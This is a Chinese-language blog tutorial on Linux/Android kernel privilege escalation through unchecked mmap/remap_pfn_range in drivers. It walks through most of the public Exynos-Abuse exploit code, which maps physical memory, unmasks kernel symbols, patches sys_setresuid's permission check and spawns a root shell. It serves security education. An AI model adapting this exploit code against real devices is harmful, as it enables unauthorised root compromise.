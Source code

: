 ```yaml
---
layout: post
title: "Privilege Escalation in Kernel 101 - mmap"
date: 2014-03-14 20:39:36 +0530
comments: true
categories: 
---
```


Privilege Escalation 101
========================

mmap&remap_pfn_range
---------------

#漏洞成因
在一段时期,各个厂商经常出现的漏洞中其中之一就是通过mmap控制全部物理内存.而出现这个问题的原因就是驱动开发人员没有正确地对remap_pfn_range这个函数中的参数做处理.
[mmap man page](http://linux.die.net/man/2/mmap)
[remap_pfn_range 使用方法](http://www.makelinux.net/ldd3/chp-15-sect-2)
下面是mmap的linux API,它的作用是将指定地址和大小的内存映射到用户空间中以便程序进行内存操作,offset传入需要映射的物理地址偏移,length传入需要映射的长度.
``` c
void *mmap(void *addr, size_t length, int prot, int flags,
           int fd, off_t offset);
```
**The mmap function asks to map length bytes starting  at offset  offset from  the  file  (or  other object) specified by the file descriptor fd into memory, preferably at address start.  This  latter  address  is  a hint  only,  and is usually specified as 0.  The actual place where the object is mapped is returned by mmap, and is never 0.**

mmap是用户空间对内核请求映射内存的一个接口,调用这个接口后如果相关驱动支持此操作,会实现一个响应mmap的函数,一般情况下会在这个响应函数中调用remap_pfn_range,下面是linux man page上对remap_pfn_range的一个简单示例：
``` c
static int simple_remap_mmap(struct file *filp, struct vm_area_struct *vma)
{
    if (remap_pfn_range(vma, vma->vm_start, vm->vm_pgoff,
                vma->vm_end - vma->vm_start,
                vma->vm_page_prot))
        return -EAGAIN;

    vma->vm_ops = &simple_remap_vm_ops;
    simple_vma_open(vma);
    return 0;
}
```
如果这段代码被直接用到驱动上,问题就来了,因为vma中的参数是根据用户空间调用mmap时传入的参数构造而成.用户空间可以传入内核代码段的物理地址,并将其标识为可读写,从而修改内核空间的代码.
 
#保护机制

一个程序的内存空间可以分为两个部分,用户空间（user space）、内核空间（kernel space）,在正常情况下,操作系统中运行的程序只能够控制自身用户空间的内存,而内核空间是由操作系统控制,且运行在特权模式.一个程序的凭据（credential）保存了自身uid、权限等信息,而凭据储存在内核空间,所以运行在用户空间的普通程序无法修改自身的凭据,这就是linux的权限控制的一部分,它保证了操作系统的安全性.
```
|--------------|
| kernel space |
|--------------|
| user space   |
|--------------|
```
##获取全部物理地址的操作能力后提权思路
由于系统中存在能够在用户空间操作所有内存（包括内核地址内存）时,普通程序通过修改内核代码段的机器码即可让内核执行任意命令,从而达到提权的目的.

  
#具体案例Exynos-Abuse 
Exynos-Abuse是其中一个最典型的案例,而且这个漏洞的利用代码也早早地公布了出来,从公布的利用代码来对这类漏洞的利用方式进行分析是最有效的方法.
[Exynos-Abuse完整利用代码](https://raw.githubusercontent.com/mwrlabs/mercury-modules/master/metall0id/root/exynosmem/exynos-abuse/jni/exynos-abuse.c)
##获取全部物理地址的操作能力
根据之前介绍过的一样,这个漏洞的利用方式第一步就是**获取全部物理地址的操作能力**,也就是下面这段代码做的工作：
程序打开有漏洞的驱动后,通过mmap调用了内存映射的方法,参数中length和PHYS_OFFSET是至关重要的两个参数.
``` c
  #define PHYS_OFFSET 0x40000000
    ......
  int page_size = sysconf(_SC_PAGE_SIZE);
  int length = page_size * page_size;
    ......
    /* open the door */
  fd = open("/dev/exynos-mem", O_RDWR);//打开有漏洞的驱动
  if (fd == -1) {
    printf("[!] Error opening /dev/exynos-mem\n");
    exit(1);
  }

    /* kernel reside at the start of physical memory, so take some Mb */
  paddr = (unsigned long *)mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_SHARED, fd, PHYS_OFFSET);//调用驱动的mmap对应接口,传入kernel text的起始物理地址
  tmp = paddr;
  if (paddr == MAP_FAILED) {
     printf("[!] Error mmap: %s|%08X\n",strerror(errno), i);
     exit(1);
  }
```
要定位到想要修改的函数地址就需要获取内核符号表,一般情况下在执行打印内核符号表的函数时由于/proc/sys/kptr_restrict的限制,所有符号表地址都会打印为0,.在内核数据段中寻找字符串"%pK %c %s\n",并将其修改为"%p %c %s\n",可以绕过此限制将内核函数的正确地址打印出来.
``` c
    /*
     * search the format string "%pK %c %s\n" in memory
     * and replace "%pK" by "%p" to force display kernel
     * symbols pointer
     修改内核符号表打印函数中的"%pK %c %s\n",并将其修改为"%p %c %s\n"
     */
    for(m = 0; m < length; m += 4) {
        if(*(unsigned long *)tmp == 0x204b7025 && *(unsigned long *)(tmp+1) == 0x25206325 && *(unsigned long *)(tmp+2) == 0x00000a73 ) {
            printf("[*] s_show->seq_printf format string found at: 0x%08X\n", PAGE_OFFSET + m);
            restore_ptr_fmt = tmp;
            *(unsigned long*)tmp = 0x20207025;//找到格式化字符串以后修改之
            found = true;
            break;
        }
        tmp++;
    }

    if (found == false) {
        printf("[!] s_show->seq_printf format string not found\n");
        exit(1);
    }
```
拿到内核符号表后就可以定位需要修改的系统调用setresuid的地址了,查找地址的方法为读取/proc/kallsyms的值,修改上面的格式化字符串后再访问改文件时,获取到的地址已经是正确的内核地址.
``` c
    found = false;

    /* kallsyms now display symbols address */       
    kallsyms = fopen("/proc/kallsyms", "r");
    if (kallsyms == NULL) {
        printf("[!] kallsysms error: %s\n", strerror(errno));
        exit(1);
    }

    /* parse /proc/kallsyms to find sys_setresuid address */
    while((ptr = fgets(line, 512, kallsyms))) {
        str = strtok(ptr, " ");
        addr_sym = strtoul(str, NULL, 16);
        index = 1;
        while(str) {
            str = strtok(NULL, " ");
            index++;
            if (index == 3) {
                if (strncmp("sys_setresuid\n", str, 14) == 0) {
                    printf("[*] sys_setresuid found at 0x%08X\n",addr_sym);
                    found = true;
                }
                break;
            }
        }
```
找到setresuid的地址后开始搜索cmp r0,#0的机器码,找到后通过把setresuid中的cmp r0,#0,修改为cmp r0,#1将权限检查的逻辑取反.
``` c
        if (found) {
            tmp = paddr;
            tmp += (addr_sym - PAGE_OFFSET) >> 2;
            for(m = 0; m < 128; m += 4) {
                if (*(unsigned long *)tmp == 0xe3500000) {
                    printf("[*] patching sys_setresuid at 0x%08X\n",addr_sym+m);
                    restore_ptr_setresuid = tmp;
                    *(unsigned long *)tmp = 0xe3500001;
                    break;
                }
                tmp++;
            }
            break;
        }
    }
```
此时内核代码中setresuid的权限检查逻辑已经取反,之前没有权限执行setresuid的程序现在可以执行成功了.

```c
    fclose(kallsyms);

    /* to be sure memory is updated */
    usleep(100000);

    /* ask for root */
    result = setresuid(0, 0, 0);

    /* restore memory */
    *(unsigned long *)restore_ptr_fmt = 0x204b7025;
    *(unsigned long *)restore_ptr_setresuid = 0xe3500000;
    munmap(paddr, length);
    close(fd);

    if (result) {
        printf("[!] set user root failed: %s\n", strerror(errno));
        exit(1);
    }

    /* execute a root shell */
    execve (cmd[0], cmd, env);

  return 0;
}
```
当execve函数运行时该程序的uid已经设置为0,如果执行的命令为"/system/bin/sh",将会看到命令行的用户由"shell$"变成了"root#".
#小结
以上的例子是在32位系统中没有开启内核代码只读的情况下才能够利用成功,由于攻防的演进,后面Android系统增加了很多诸如内核代码只读、PXN等安全功能,使得漏洞的完美利用更加困难,但通过此例子可以很好的了解内核提权的步骤以及思路.
